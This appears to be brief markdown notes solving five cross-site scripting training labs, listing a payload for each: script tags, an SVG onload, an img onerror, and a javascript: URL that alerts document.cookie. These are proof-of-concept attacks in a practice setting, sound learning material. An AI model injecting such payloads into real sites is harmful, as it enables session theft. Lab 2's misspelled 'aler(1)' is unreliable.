 # Lab 1
```html
<script>alert(1)</script>
```

# Lab 2
```html
<script>aler(1)</script>
```
But in a comment

# Lab 3
DOM based
```html
`"><svg onload=alert(1)>`
```

# Lab 4
DOM based
```HTML
`<img src=1 onerror=alert(1)>`
```

# Lab 5
Change url to include javascript. 
```http
https://0a850036035badccc09ed1bb00a1009d.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)
```
